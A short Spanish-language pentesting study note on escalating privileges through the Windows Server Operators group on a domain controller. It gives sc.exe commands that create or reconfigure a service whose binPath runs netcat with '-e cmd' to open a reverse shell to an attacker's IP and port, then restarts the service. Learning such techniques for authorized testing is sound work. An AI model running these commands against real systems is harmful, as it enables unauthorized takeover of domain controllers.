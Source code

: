 -----
- Tags:  #windows #teoria #practica #basico 
- -----

# Grupo Server Operators 

Los miembros del grupo **Server Operators** pueden administrar el DC. Este grupo existe solo en los DC. Por default no tiene miembros y permite a los miembros ejecutar las siguientes acciones:

- ### Loguearse al server interactivamente. 
- ### Crear y elimintar recursos compartidos a nivel de red. 
- ### Iniciar y detener servicios. 

----

# Escalada 

La escalada de privilegios en este caso se da a raiz de que un usuario pertenezca al grupo **Server Operators** de manera que entendemos que dentro de varíos permisos que contiene, puede **iniciar** y **detener** servicios. Lo que en caso de que hayan servicios existentes (O no) conlleva un riesgo. 

En caso de que hayan servicios existentes o no, lo primero que podemos hacer es intentar crear nuestro propio servicio para abusar del **binPath** para cargar una instrucción que queremos que se realize a la hora de inicializar el servicio. 

Podríamos subir a la máquina Windows vulnerada el binario de **netcat** para alojarlo en una ruta, por ejemplo **C:\Users\Dobliuw\Desktop\nc.exe** y una vez alojado, crear un servicio para abusar del binPath: `sc.exe create {name} binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {ip} {port}"`

En caso de que no podramos crear un servicio, podríamos intentar cambiar la configuración de un servicio existente (Comando `services` para listar los servicios) creado con`sc.exe config {ServiceName} binPath "C:\Users\Dobliuw\Desktop\nc.exe -e cmd {ip} {port}"`.

Una vez más, en caso de que no podrámos editar la configuración de un servicio, lo que podríamos hacer es probar con todos y ver si en algun momento nos permite editar la configuración de alguno. 

Ahora si, una vez lograda la edición de la configuración de un servicio o hayamos podido crear el nuestro con el binPath malicioso, simplemente podríamos detener el servicio y levantarlo para abusar de estos privilegios del grupo. 

`sc.exe stop/start {ServiceName}`
